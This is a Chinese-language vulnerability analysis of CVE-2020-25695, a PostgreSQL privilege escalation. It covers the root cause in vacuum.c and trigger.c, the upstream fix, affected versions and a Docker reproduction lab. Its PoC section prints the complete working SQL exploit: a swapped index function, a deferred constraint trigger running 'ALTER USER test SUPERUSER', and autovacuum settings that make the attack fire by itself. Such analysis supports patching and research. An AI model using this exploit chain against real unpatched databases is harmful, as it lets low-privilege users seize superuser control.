




# CVE-2020-25695 CWE-89 PostgreSQL 权限提升

## 漏洞背景

- **PostgreSQL**：PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据
- **安全受限操作：**在 PostgreSQL 中，当执行一些特殊维护操作时，比如 ANALYZE（分析表）或 VACUUM（清理表），系统会临时切换到表所有者的权限来执行。这是为了安全，这种状态被称为“安全受限操作” (security-restricted operation)。操作完成后，系统会再切换回原始执行者的权限。

- **IMMUTABLE 函数：**在 PostgreSQL（psql）中，`IMMUTABLE` 是一种函数的特性标识。它表示一个函数在其整个生命周期内，当给定相同的输入参数时，总是返回相同的结果。这意味着函数的行为是不可变的，不会受到外部环境（如系统时间、数据库状态等）的影响。这种函数通常用于数学计算、字符串操作等确定性操作，例如 `sqrt()`、`length()` 等。

- **索引：**在 PostgreSQL（psql）中，索引是一种用于提高数据查询效率的数据库对象。它类似于书籍的目录，能够快速定位到表中满足特定条件的行，而无需扫描整个表的数据。通过在表的一个或多个列上创建索引，可以显著加快 SELECT 查询的速度，尤其是在处理大量数据时。

- **autovacuum：**在 PostgreSQL（psql）中，`autovacuum` 是一个自动维护数据库性能的后台进程。它会定期自动清理和回收数据库中不再需要的空间，例如删除已标记为过期的行（因更新或删除操作产生的“死行”），并更新表和索引的统计信息以帮助查询优化器更好地规划查询。

- **ANALYZE：**在 PostgreSQL（psql）中，`ANALYZE` 是一个重要的命令，用于收集数据库表的统计信息，以帮助查询优化器生成更高效的查询执行计划。当表的数据发生显著变化（如大量插入、更新或删除操作）后，执行 `ANALYZE` 可以更新表和索引的统计信息，使优化器更好地了解数据的分布情况。这有助于优化器选择更合适的索引、连接顺序和执行策略，从而提升查询性能。
- **CWE-89：SQL 注入（SQL Injection）** 是一种常见的安全漏洞，指攻击者通过在输入中注入恶意的 SQL 代码，篡改原有查询逻辑，从而绕过认证、访问敏感数据、修改数据库内容或执行数据库命令。该漏洞通常出现在应用程序未对用户输入进行充分校验或转义的情况下，是 Web 应用中最严重和广泛的安全问题之一。有效的防护手段包括使用参数化查询、ORM 框架以及严格的数据输入验证。

## 漏洞原理

PostgreSQL 在一个安全操作中，过早地恢复了高权限，而在事务尚未完全结束时，给了攻击者利用延迟执行机制（Deferred Trigger）的机会，在这个短暂的高权限窗口内执行了恶意代码，从而实现了权限提升。

攻击者利用 `IMMUTABLE` 函数创建索引，随后重新定义该函数为一个带有恶意操作的 `SECURITY INVOKER` 版本。该恶意函数通过 `INSERT` 操作，激活一个`INITIALLY DEFERRED`（延迟执行）的约束触发器。当 `autovacuum` 或 `ANALYZE` 操作由高权限用户（如 `postgres`）触发时，数据库后台会先降权执行索引函数，然后在恢复高权限之后、事务提交之前的短暂窗口内执行该延迟触发器。这使得触发器内的恶意代码（如 `ALTER USER`）最终在高权限下被执行，从而实现低权限用户到超级用户的提权。该漏洞利用了函数重定义和延迟触发器机制，精准地攻击了 PostgreSQL 在安全受限操作中权限恢复与事务提交的时序缺陷。

## 漏洞定位

1. 在 src\backend\commands\vacuum.c 文件第 1186 行的 vacuum_rel 函数用于对指定的数据库关系（如表、物化视图等）进行清理和优化操作（即 VACUUM 操作）。

   其中第 1397 行用户身份被恢复为执行命令的“超级用户”，第 1407 行，整个事务才最终完成并提交。这两行代码的前后顺序导致了代码在事务尚未完全结束的情况下，就提前恢复了高权限用户的身份。这就在“权限已恢复”和“事务未提交”之间创造了一个短暂但致命的攻击窗口。攻击者利用 INITIALLY DEFERRED（延迟执行）的触发器，让自己的恶意代码恰好在这个窗口期执行。由于此时的执行者已经是超级用户，恶意代码（如 ALTER USER ... SUPERUSER）也随之以超级用户权限运行，导致提权。

   ```c
   // ...
   // ***** 1372 行 ********** 进入安全降权模式，以“表所有者”的低权限身份执行核心工作 ************
   GetUserIdAndSecContext(&save_userid, &save_sec_context);
   SetUserIdAndSecContext(onerel->rd_rel->relowner,
                          save_sec_context | SECURITY_RESTRICTED_OPERATION);
   
   // ...
   // 执行具体工作，如 lazy_vacuum_rel()
   // 在此期间，攻击者设置的索引函数被调用，并激活了一个“延迟触发器”
   // ...
   
   /* Restore userid and security context */
   // ***** 1397 行 ********** 恢复权限：在这里，用户身份被恢复为执行命令的“超级用户” ************
   SetUserIdAndSecContext(save_userid, save_sec_context);
   
   // ...
   
   /*
    * Complete the transaction and free all temporary memory used.
    */
   // ***** 1407 行 ********** 提交事务：在这里，整个事务才最终完成并提交 **********************
   PopActiveSnapshot();
   CommitTransactionCommand();
   ```

2. 在 src\backend\commands\trigger.c 文件，第 3696 行`afterTriggerMarkEvents`函数用于处理触发器事件列表。主要功能是对给定的触发器事件列表 `events` 进行处理，根据一定的条件将某些事件标记为即将执行或延迟执行，并且可以选择将延迟执行的事件移动到另一个列表 `move_list` 中。

   其中第 **3735** 行的判断语句将延迟触发器事件（被标记为`defer_it`）移动到延迟队列（`move_list`）中。在执行这个“入队”操作时，**没有进行任何安全检查来判断自己是否正处于一个 `ANALYZE` 或 `VACUUM` 等安全受限操作中**，而是直接将延迟触发器放到延迟队列中等待执行。如果在延迟触发器中加入了恶意代码，攻击者就能利用在第一步分析中发现的时序问题（即权限恢复在事务提交之前），最终实现越权操作。这是**漏洞点**所在。

   ```c
   static bool
   afterTriggerMarkEvents(AfterTriggerEventList *events,
   					   AfterTriggerEventList *move_list,
   					   bool immediate_only)
   {
   	bool		found = false;
   	AfterTriggerEvent event;
   	AfterTriggerEventChunk *chunk;
   
   	for_each_event_chunk(event, chunk, *events)
   	{
   		AfterTriggerShared evtshared = GetTriggerSharedData(event);
   		bool		defer_it = false;
   
   		if (!(event->ate_flags &
   			  (AFTER_TRIGGER_DONE | AFTER_TRIGGER_IN_PROGRESS)))
   		{
   			/*
   			 * This trigger hasn't been called or scheduled yet. Check if we
   			 * should call it now.
   			 */
   			if (immediate_only && afterTriggerCheckState(evtshared))
   			{
   				defer_it = true;
   			}
   			else
   			{
   				/*
   				 * Mark it as to be fired in this firing cycle.
   				 */
   				evtshared->ats_firing_id = afterTriggers.firing_counter;
   				event->ate_flags |= AFTER_TRIGGER_IN_PROGRESS;
   				found = true;
   			}
   		}
   
   		/*
   		 * If it's deferred, move it to move_list, if requested.
   		 */
   // ***** 3735 ********** 如果需要延迟执行，直接移入 move_list ***** 漏洞点 ****************
   		if (defer_it && move_list != NULL)
   		{
   			/* add it to move_list */
   			afterTriggerAddEvent(move_list, event, evtshared);
   			/* mark original copy "done" so we don't do it again */
   			event->ate_flags |= AFTER_TRIGGER_DONE;
   		}
   	}
   
   	return found;
   }
   ```

## 漏洞修复


升级到 PostgreSQL 13.1、12.5、11.10、10.15、9.6.20、9.5.24，或相应分支中的更高版本。
[PostgreSQL 修复提交](https://git.postgresql.org/gitweb/?p=postgresql.git;a=commitdiff;h=ff3de4c21a462f2da773848c53faedac88d6e54d;hp=d8a9722bd39c4eced4b13551f0401b37ff72ef74)

该修复没有更改 `vacuum.c` 中事务的执行顺序，而是修改 `trigger.c`，主动阻止在安全受限操作中遗留延迟触发器事件。

1. 添加布尔变量 `deferred_found`，标记需要延迟处理的事件。

   ```c
   if (defer_it && move_list != NULL)
   {
       deferred_found = true;
       /* add it to move_list */
       afterTriggerAddEvent(move_list, event, evtshared);
       /* mark original copy "done" so we don't do it again */
       event->ate_flags |= AFTER_TRIGGER_DONE;
   }
   ```

2. 增加检查点：如果存在延迟触发器（`deferred_found` 为真），且当前操作处于安全受限模式（`InSecurityRestrictedOperation()`），则立即抛出错误并中断执行。

   ```c
   /*
       * We could allow deferred triggers if, before the end of the
       * security-restricted operation, we were to verify that a SET CONSTRAINTS
       * ... IMMEDIATE has fired all such triggers.  For now, don't bother.
       */
      if (deferred_found && InSecurityRestrictedOperation())
          ereport(ERROR,
                  (errcode(ERRCODE_INSUFFICIENT_PRIVILEGE),
                   errmsg("cannot fire deferred trigger within security-restricted operation")));
   ```

## 影响范围


PostgreSQL < 9.6.20

PostgreSQL < 9.5.24

PostgreSQL < 13.1

PostgreSQL < 12.5

PostgreSQL < 11.10

PostgreSQL < 10.15

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 9.6.7，在 Docker 环境中管理员为 postgres，密码为 password，且有个 用户名为 test 的普通用户，密码为 test。同时有一个名为 test 的数据库，并授予 test 用户对 test 数据库的所有权限。



## 漏洞复现

1. 以 test 用户连接 PostgreSQL，密码为 test

   ```bash
   psql --host 127.0.0.1 --username test
   ```

2. 输入命令 \du 查看所有用户的权限，可以看到 test 用户不具有 Superuser 权限

   

3. 执行 PoC 代码，输入 PostgreSQL 的 IP、端口，连接的用户名、密码、数据库，等待执行完成。

   ```bash
   python CVE-2020-25695-PoC.py
   ```

   

4. 再次使用 \du 命令查看用户权限，可以看到 test 用户拥有了  Superuser 权限。

   

   

## PoC分析

**攻击流程：**

> 1. **准备**：低权限用户 `test` 执行整个脚本，布下陷阱。
> 2. **触发**：`postgres` 超级用户（或 `autovacuum` 进程）对 `exp` 表执行 `ANALYZE`。
> 3. **第一阶段**：`ANALYZE` 调用了被替换的恶意 `sfunc`，后者以低权限向 `t0` 表插入一行数据。
> 4. **权限恢复**：`ANALYZE` 退出安全受限模式，当前会话权限恢复为 `postgres`。
> 5. **第二阶段（延迟触发）**：事务准备提交，`INITIALLY DEFERRED` 的触发器 `def` 被激活，执行 `strig()` 函数。
> 6. **权限窃取**：`strig()` 函数检查到 `current_user` 是 `postgres`，于是调用 `snfunc2()`。
> 7. **提权成功**：`snfunc2()` 中的 `ALTER USER test SUPERUSER;` 被**以 `postgres` 的权限**成功执行。用户 `test` 成为超级用户。

**1. 环境准备 (Setup)**

```sql
-- 创建表
CREATE TABLE IF NOT EXISTS t0 (s varchar);
CREATE TABLE IF NOT EXISTS t1 (s varchar);
CREATE TABLE IF NOT EXISTS exp (a int, b int);
```

- `exp`: 这是“诱饵”表。攻击者将在这个表上设置陷阱。当管理员对这个表进行 `ANALYZE` 或 `VACUUM` 操作时，漏洞就会被触发。
- `t0`: 这是“中介”表。它的唯一作用就是承接一个 `INSERT` 操作，从而激活我们后面设置的延迟触发器。
- `t1`: 这是“日志”表。用于记录是哪个用户最终执行了提权函数。这在调试和确认漏洞是否成功时很有用。

**2. 核心技巧 1：`IMMUTABLE` 函数替换**

```sql
-- 创建并替换初始函数 sfunc（immutable）
CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
LANGUAGE sql IMMUTABLE AS
'SELECT $1';

-- 创建索引
CREATE INDEX IF NOT EXISTS indy ON exp (sfunc(a));

-- 重新定义函数 sfunc，带插入操作，SECURITY INVOKER
CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
LANGUAGE sql SECURITY INVOKER AS
$$
INSERT INTO test.public.t0 VALUES (current_user);
SELECT $1;
$$;
```

1. 先创建一个无害的、标记为 `IMMUTABLE` 的 `sfunc` 函数。
2. 使用这个合规的函数在 `exp` 表上成功创建索引 `indy`。
3. 然后，用 `CREATE OR REPLACE` 将 `sfunc` **替换**成一个恶意版本。这个新版本会向 `t0` 表中插入当前用户名。
4. PostgreSQL 不会重新验证索引，所以索引 `indy` 现在指向了恶意的 `sfunc` 函数。当 `indy` 被使用时（例如在 `ANALYZE` 期间），恶意代码就会执行。

`INSERT INTO test.public.t0` 明确指定了数据库 (`test`) 和模式 (`public`)，这是为了确保 `autovacuum` 进程在没有默认数据库上下文的情况下也能找到这个表。

**3. 延迟执行与权限窃取**

通过延迟触发器在权限恢复后的时间窗口内执行恶意代码。

```sql
-- 定义 snfunc 和 snfunc2
-- 无害版本
CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer
LANGUAGE sql SECURITY INVOKER AS
$$
INSERT INTO test.public.t1 VALUES (current_user);
SELECT $1;
$$;

-- 提权版本 (ALTER USER)
CREATE OR REPLACE FUNCTION snfunc2(integer) RETURNS integer
LANGUAGE sql SECURITY INVOKER AS
$$
INSERT INTO test.public.t1 VALUES (current_user);
ALTER USER test SUPERUSER;
SELECT $1;
$$;

-- 创建触发器函数 strig
CREATE OR REPLACE FUNCTION strig() RETURNS trigger AS
$$
BEGIN
    IF current_user = 'postgres' THEN
        PERFORM test.public.snfunc2(1000); -- 如果是超级用户，执行提权
        RETURN NEW;
    ELSE
        PERFORM test.public.snfunc(1000); -- 否则，只记录日志
        RETURN NEW;
    END IF;
END;
$$
LANGUAGE plpgsql;

-- 创建约束触发器
DROP TRIGGER IF EXISTS def ON t0;
CREATE CONSTRAINT TRIGGER def
AFTER INSERT ON t0
INITIALLY DEFERRED FOR EACH ROW
EXECUTE PROCEDURE strig();
```

1. `snfunc` 和 `snfunc2`：

   - `snfunc`: 一个无害的函数，仅用于记录日志。
   - `snfunc2`: **最终的攻击载荷 (Payload)**。它包含了提权语句 `ALTER USER test SUPERUSER;`。

2. `strig()` 触发器函数

   : 这是一个逻辑判断中心。

   - 它检查 `current_user`。如果当前执行者是 `postgres`（或其他超级用户），它就调用包含提权代码的 `snfunc2`。
   - 如果执行者是普通用户（比如攻击者 `test` 自己在设置陷阱时），它就调用无害的 `snfunc`，避免因权限不足而导致设置失败。

3. `CREATE CONSTRAINT TRIGGER ... INITIALLY DEFERRED`: 

   这是整个漏洞利用的关键。

   - 它在 `t0` 表上设置了一个触发器 `def`。
   - `INITIALLY DEFERRED` 告诉 PostgreSQL：当有 `INSERT` 到 `t0` 表时，不要马上执行 `strig()` 函数，**而是等到整个事务即将提交 (commit) 的时候再执行**。
   - 这完美地利用了漏洞：`ANALYZE` 命令会在恢复超级用户权限**之后**、事务提交**之前**的这个时间点，给了 `strig()` 函数以超级用户身份运行的机会。

**4. 自动化触发 (Automation)**

```sql
-- 设置 exp 表的 autovacuum 参数
ALTER TABLE exp SET (autovacuum_vacuum_threshold = 1);
ALTER TABLE exp SET (autovacuum_analyze_threshold = 1);
```

这两行代码是为了让漏洞能够自动触发。它极大地降低了 `autovacuum` 进程在 `exp` 表上运行的门槛。现在，只要 `exp` 表发生 **1** 次数据变动，`autovacuum` 进程（以超级用户身份运行）就很有可能会被唤醒并执行 `ANALYZE`，从而触发整个攻击链。

**5. 手动与自动触发**

```sql
-- 执行分析 (手动触发)
ANALYZE exp;

-- 触发 autovacuum (自动触发)
INSERT INTO exp VALUES (1,1), (2,3), (4,5), (6,7), (8,9);
DELETE FROM exp;
INSERT INTO exp VALUES (1,1);
```

- `ANALYZE exp;`: 如果一个超级用户手动执行这条命令，漏洞会立即被触发。
- 后面的 `INSERT`/`DELETE` 操作：这是在模拟真实世界中的数据操作。这些操作会“弄脏”`exp` 表，从而满足 `autovacuum_..._threshold = 1` 的条件，诱使 `autovacuum` 进程在不久的将来自动运行，实现全自动的提权。

## 参考链接


[SQL Injection · CVE-2020-25695 · GitHub Security Bulletin Database --- SQL Injection · CVE-2020-25695 · GitHub Advisory Database](https://github.com/advisories/GHSA-xgxp-9x8p-gcw4)

[Postgresql research](https://gist.github.com/staaldraad/1325617885d42aa40777aa4774e91214)

[CVE-2020-25695 Privilege escalation in Postgresql Ch30g Security Blog](https://blog.ch30gsec.top/archives/cve-2020-25695postgresql中的权限提升)

[PostgreSQL-CVE-2020-25695 Privilege Escalation Vulnerability Analysis](https://mp.weixin.qq.com/s?__biz=MzkyODMyODMyOA==&mid=2247487645&idx=1&sn=6ca606bda2f7ca498eea6874a2c3d2ce)

[CVE-2020-25695 Privilege Escalation in Postgresql | Staaldraad](https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/)
